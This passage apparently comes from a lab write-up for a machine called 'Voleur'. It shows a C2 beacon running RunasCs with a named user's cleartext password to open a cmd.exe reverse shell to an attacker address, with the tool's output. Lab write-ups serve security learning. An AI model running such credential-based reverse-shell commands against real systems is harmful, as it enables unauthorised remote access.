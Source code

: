 ![alt text](../assets/images/voleur27.png)

BAM BAM BAM BAM. letss load beacon and read new dierectories.

```bash
[07/05 20:52:16] beacon> execute-assembly /home/elliot/tools/RunasCs.exe jeremy.combs qT3V9pLXyN7W4m "cmd.exe" -r 10.10.14.36:1433
[07/05 20:52:16] [*] Tasked beacon to run .NET program: RunasCs.exe jeremy.combs qT3V9pLXyN7W4m "cmd.exe" -r 10.10.14.36:1433
[07/05 20:52:16] [+] host called home, sent: 161070 bytes
[07/05 20:52:17] [+] received output:
[*] Warning: The logon for user 'jeremy.combs' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-5d163d$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 4896 created in background.
```

AND BAMMMMMMMM

![alt text](../assets/images/voleur28.png)
